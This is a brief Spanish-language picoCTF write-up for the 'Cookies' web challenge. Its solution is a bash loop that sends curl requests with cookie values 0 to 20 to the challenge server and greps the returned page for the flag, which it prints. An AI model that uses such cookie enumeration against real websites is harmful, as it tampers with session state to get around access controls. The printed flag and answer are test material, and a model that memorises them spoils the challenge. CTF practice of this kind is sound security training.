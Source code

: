 ## Objetivo
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)

## Pistas

## Solucion
┌─[oscar@oscar-parrot]─[~]
└──╼ $for i in {0..20}; do curl -s http://mercury.picoctf.net:21485/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code></p>
┌─[oscar@oscar-parrot]─[~]
└──╼ $
## Notas adicionales

## referencias
https://www.youtube.com/watch?v=LseQ-XWCXVo